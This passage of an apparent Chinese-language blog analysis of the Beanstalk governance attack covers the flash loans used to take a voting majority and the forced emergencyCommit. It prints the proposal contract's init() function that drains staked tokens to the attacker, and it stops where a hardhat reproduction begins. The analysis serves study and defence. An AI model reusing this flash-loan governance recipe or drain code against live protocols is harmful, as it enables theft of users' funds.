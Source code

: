 

5. 向 BIP18 提案合约地址转入0.25ETH。攻击者进行这一操作目的为将 BIP18 地址伪装成 EOA，同样是攻击者的障眼法。
6. 等待一天，满足调用 emergencyCommit 时间要求。
7. 通过 create2 创建 BIP18 合约。
8. 通过闪电贷获得大量质押代币，换取大量 Stalk，满足emergencyCommit的票数要求，强制使得 BIP18 通过并执行。

## 执行攻击

### 资金准备

跟据之前的分析，现在只需要通过闪电贷获得大量的 Stalk 使得攻击者拥有的 Roots 大于等于 totalRoots 的 2/3 即可满足 emergencyCommit 的调用条件。

不过通过之前的推导以及准备工作中算得的需要满足发起提案的资金对比可以知道，如果想满足 emergencyWithdraw 的调用条件，估算得出至少需要    
2\*1e11\*(66/0.1)=132\*1e12 个 Bean。

但是在攻击发生前后，Weth&BeanUniswapPair 中 Bean 的储备仅为 28\*1e12 左右，所以仅凭借该交易对中的 Bean 不足以满足攻击条件。

发生攻击前，Uniswap 中具体 Bean 存量如下：  


![交易Hash: 0xfdd9acbc3fae083d572a2b178c8ca74a63915841a8af572a10d0055dbe91d219](https://s3cunDa.github.io/assets/post/image-20220511144139975.png)

不过 Silo 白名单中不仅仅只有 Bean 一种 token 可以进行质押换取 Stalk，攻击者采用闪电贷借出大量的 DAI、USDT、USDC、Bean、LUSD，将这些代币通过在交易所中兑换统一置换为 BEAN:3CRV Curve LP Tokens，达成条件。

具体来说，攻击者在 AAVELendingPool 中通过闪电贷借取了 350 * 1e24 枚 DAI、500 * 1e12 枚 USDC 以及 150 * 1e12 枚 USDT，随后又在对应的 UniswapPair 以及 SushiswapPair 中通过闪电贷获得了 11 * 1e24 枚 LUSD以及 32 * 1e12 枚 Bean。

此时攻击者手里有价值超过10亿的资产，通过一系列的兑换操作后获得的 Stalk 足以满足执行 emergencyWithdraw 的条件。

### 攻击获利

一旦攻击者成功调用 emergencyCommit，那么 BeansProtocol 会以 delegatecall 的形式调用提案合约地址中的 init() 函数（详见文章之前小节分析）。

攻击者布置的 BIP18 提案合约的 init() 函数逻辑如下，会直接将协议内的质押资产转移到攻击合约中：

```solidity
function init() public{
        IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).transfer(msg.sender, IERC20(0xDC59ac4FeFa32293A95889Dc396682858d52e5Db).balanceOf(address(this)));//bean
        IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).transfer(msg.sender, IERC20(0x87898263B6C5BABe34b4ec53F22d98430b91e371).balanceOf(address(this)));//wethBeanLP
        IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).transfer(msg.sender, IERC20(0x3a70DfA7d2262988064A2D051dd47521E43c9BdD).balanceOf(address(this)));//beanCrv
        IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).transfer(msg.sender, IERC20(0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D).balanceOf(address(this)));//beanLusd
    }    
```

攻击者完成攻击和闪电贷还款流程后，将所有攻击所得在 DEX 内换为 ETH，最终获利24830个ETH。

![攻击获利](https://s3cunDa.github.io/assets/post/image-20220511154924377.png)

### 攻击复现
使用 hardhat 框架，fork ETH 主网区块高度为14595309。  
攻击合约：

